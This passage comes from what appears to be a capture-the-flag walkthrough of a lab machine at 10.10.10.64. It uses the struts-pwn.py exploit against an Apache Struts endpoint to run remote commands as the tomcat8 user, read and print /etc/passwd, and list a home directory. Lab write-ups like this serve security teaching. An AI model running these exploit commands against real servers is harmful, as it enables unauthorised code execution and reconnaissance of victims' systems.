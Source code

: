 Looks like it worked.  We can ignore the warnings.
```bash
uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)
```
We are running as the tomcat8 user.  Let's see what other users are on the box by looking at /etc/passwd:
```bash
python struts-pwn.py --url 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'cat /etc/passwd'
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
rtkit:x:105:109:RealtimeKit,,,:/proc:/bin/false
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/bin/false
messagebus:x:107:110::/var/run/dbus:/bin/false
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
speech-dispatcher:x:109:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
lightdm:x:111:113:Light Display Manager:/var/lib/lightdm:/bin/false
pulse:x:112:114:PulseAudio daemon,,,:/var/run/pulse:/bin/false
avahi:x:113:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
saned:x:114:118::/var/lib/saned:/bin/false
richard:x:1000:1000:Richard F Smith,,,:/home/richard:/bin/bash
tomcat8:x:115:119::/var/lib/tomcat8:/bin/bash
mysql:x:116:120:MySQL Server,,,:/nonexistent:/bin/false
```
We have another user called richard which is probably where we have to go, but we do not have enough information to get there yet.  For now, we can poke around the home directory for the user we have (/var/lib/tomcat8):
```bash
python struts-pwn.py --url 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'ls -al /var/lib/tomcat8'
```
